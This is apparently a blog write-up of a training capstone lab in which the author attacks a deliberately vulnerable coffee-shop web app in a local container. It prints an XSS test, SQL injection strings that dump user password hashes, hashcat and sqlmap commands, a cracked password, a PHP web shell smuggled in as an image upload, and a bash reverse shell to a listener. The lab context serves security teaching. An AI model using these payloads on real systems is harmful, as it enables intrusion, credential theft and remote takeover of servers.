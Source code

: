```yaml
--- 
title: "Web App Exploit Project [TCM-Security CEH Capstone]"
date: 2024-06-25 12:00:00 -100
image: /assets/images/Coffe Shop/PEH.png
categories: [CTF, pentest]
tags: [xss, penetration testing]    # TAG names should always be lowercase
---
```

Cover image by [Freepik](https://www.freepik.com/)

_This is a straightforward web application exploit where we will leverage vulnerabilities in a poorly designed website. The goal is to find exploits avaialbe and if possible gain shell access to the device hosting the application. The web application lives in a container located on our local machine. As the title says, this is the capstone for TCM-Securities Practical Ethical Hacking course_


Navigating to our localhost/capstone We see the following webpage. 

![Image of the website](/assets/images/Coffe%20Shop/Website%20Pic.png)
_Coffee store application_

I clicked on one of the available items listed and it allows us to enter a comment. To which I tried a very basic XSS POC

```javascript
<script>alert(1)</script>
```

![XSS](/assets/images/Coffe%20Shop/Coffe%20XSS%20example.png)

Great, our first finding is the XSS vulnerability. I also noticed the URL is also may be vulnerable to SQL injection attacks as it directly reflects what's in the URL

![XSS2](/assets/images/Coffe%20Shop/URL%20Reflected%20back%20at%20us.png)

{% include tip.html content="Input sanitization & encoding user input can help prevent this types of attacks." %}

Manipulating the URL with a simple sql injection statement allows me to retreive all the coffees from the database

```SQL
coffee.php?coffee=1' or 1=1-- -
```

Since 1=1 equates to true we get all the available items. The comment delimiter -- - means that anything after it will be treated as comment and thus ignored

![Simple SQL exploit](/assets/images/Coffe%20Shop/XSS%20Injection%202.png)

Great, so with this POC working, we can try to extract the number of columns we're dealing with. Glancing at the image below, there's probably 7 columns

![Number of Columns](/assets/images/Coffe%20Shop/Number%20of%20columns.png)

Extracting the number of columns using the following line

```SQL
coffe=1' union select null,null,null,null,null,null,null-- -
```

Since the page still loads, it indicates that **we have confirmed there is indeed 7 columns** and can further exploit the database

![Confirmed columns](/assets/images/Coffe%20Shop/Confirmed%20number%20of%20columns.png)

After enumerating the number of columns, we need to know what the actual table names are. I opted to just replace null with TABLE_NAME for every column placeholder

```SQL
1' union select TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES-- -
```

`INFORMATION_SCHEMA.TABLES` contains information about all the tables in the database

All the tables are dumped 
![Dumped Tables](/assets/images/Coffe%20Shop/Table_names.png)

Scrolling down, we see the non standard SQL tables that are probably related to this application

![Related tables](/assets/images/Coffe%20Shop/app%20tables.png)

Let's enumerate the columns as well

```SQL
coffee=1'union select COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS-- -
```

Important columns obtained obtained 👌

![Password](/assets/images/Coffe%20Shop/Password.png)

Let's use the information on our tables and columns to extract the password from the users table

```SQL
coffee=1' union select null,username,password,null,null,null,null FROM users-- -
```

![password obtained](/assets/images/Coffe%20Shop/Password%20Hashes.png)

Password hashes obtained. Now we need to find out what kind of hash we're dealing with in order to crack them

It looks like both my offline hash cracking tools `hash-identifier` and `hashid` could not identify the hash

![failed to identify](/assets/images/Coffe%20Shop/Unknown%20hash.png)

I'll opt for an online hash identifier tool instead

![Hash Identified](/assets/images/Coffe%20Shop/Hash%20Identified.png)

The hash is identified as potentially bcrypt, 

Now that we have an idea of what hash we have. Let's look up the corresponding hashcat module for blowfish, bcrypt

Utilizing the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) we can see that blowfish, bcrypt corresponds to the hashcat 3200 mode

{% include warning.html content="Cracking hashes is resource intensive and should not be done on VMs with limited resources" %}

```bash
hashcat -m 3200 hashes.txt -w2 /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt
```

We can see from the output that the hash obained from Jeremy `$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy` correspoonds to the password `captain1`

![Jeremy's Password](/assets/images/Coffe%20Shop/Hash%20revealed%20password.png)


# Utilizing SQLMap

[SQLmap](https://sqlmap.org/) is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

To utilize SQLmap, we need to capture the request to the web application. To do this we will use a tool built into Kali called Burpsuite to capture the request, then copy and paste that into a text file called `request.txt`

![Request](/assets/images/Coffe%20Shop/Burp%20request.png)

```bash
sqlmap -r request.txt --level-2
```

The output tells us that the applications coffee parameter is vulnerable to SQL injection and confirmed the back-end DBMS is MySQL. Vulnerabilities include boolean-based blind, time-based blind, and UNION query injection

![SQL map output](/assets/images/Coffe%20Shop/SQLmap%20output.png)

Let's modify our request to dump the users table

```bash
sqlmap -r request.txt  -T users -dump  
```

![passwords](/assets/images/Coffe%20Shop/sqlmap%20passwords.png)

Now we have every user & admins hashed password. Since we already cracked jeremy's password earlier. We can just login with that

![Nothing different](/assets/images/Coffe%20Shop/Nothing%20different.png)

We don't immediately see anything different or any type of admin panel available to me so I'm going to run a ffuf scan to enumerate directories

{% include tip.html content="Enumerate directories before you attempt to exploit to avoid this problem" %}

```bash
 ffuf -u http://localhost/capstone/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -recursion
```

![ffuf scan](/assets/images/Coffe%20Shop/admin_php.png)

Running the following ffuf scan enumerated `/admin/admin.php` for us. We will login with Jeremy's admin credentials that we obtained earlier and navigate to that 

![Add Coffee Page](/assets/images/Coffe%20Shop/add%20new%20coffee.png)

It looks like we have the ability to upload. Let's see what happens when we upload our new coffee item

![MLG Coffee](/assets/images/Coffe%20Shop/MLG%20Coffee.png)

It looks like we can successfully upload. We'll use the inspector in the browser to view the image source

![Image source](/assets/images/Coffe%20Shop/image%20location.png)

From here we will edit the request in brupsuite to include 

![File named changed](/assets/images/Coffe%20Shop/File%20name%20changed.png)

As you can see from the picture above we had to change the file name to a .php file so that it would execute our php shell. We added the php reverse one liner that take the parameter from the URL and executes it as a system command on the server. We also had to remove most of the image data below the [magic byte](https://en.wikipedia.org/wiki/List_of_file_signatures) `PNG`

```bash
<?php system($_GET['cmd']); ?>
```

![PHP One Liner](/assets/images/Coffe%20Shop/php%20one%20liner.png)

From checking the image source prevously, we will navigate to our image url `url/assets/<image number>.php?cmd=whoami` and test the simple command `whoami`

![RCE](/assets/images/Coffe%20Shop/RCE.png)

And boom goes the dynimaite, we have RCE. Let's set up our netcat listenr to allow the incoming reverse shell that we're going to set up in a seoncd

```bash
nc -lvnp 9001
```

![netcat](/assets/images/Coffe%20Shop/netcat.png)

Now let's change the request from `whoami` to this bash reverse shell. We should also encode it for good measure

```bash
http://localhost/capstone/assets/21.php?cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.101.130/9001 0>&1'

#URL encoded version
http://localhost/capstone/assets/21.php?cmd=/bin/bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.101.130%2F9001%200%3E%261%27
```

![Reverse Shell Obtained](/assets/images/Coffe%20Shop/Shell%20obtained.png)

And GG, we have successfully compromsied this container. It's crucial to avoid security vulnerabilites like XSS attacks. The URL & comment section appeared to lack any [input validation](https://www.sciencedirect.com/topics/computer-science/input-validation#:~:text=Input%20validation%20is%20the%20process,standard%20defined%20within%20the%20application.) and should valid the type of input being entered to ensure safe characters. 
